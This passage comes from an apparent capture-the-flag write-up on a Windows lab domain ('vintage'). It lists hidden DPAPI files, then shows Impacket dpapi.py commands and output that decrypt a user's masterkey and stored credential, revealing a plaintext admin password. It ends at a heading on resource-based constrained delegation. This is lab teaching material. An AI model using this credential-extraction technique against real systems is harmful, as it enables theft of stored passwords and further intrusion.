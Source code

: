 ```powershell
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```

We can download the credential file and masterkey to our local machine and use `dpapi.py` to extract them.

```console
$ dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

$ dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312 
```

We found a password for the user `c.neri_adm`. 

### RBCD Attack

![](/assets/images/writeups/vintage/BH-NERI-delegate.png)
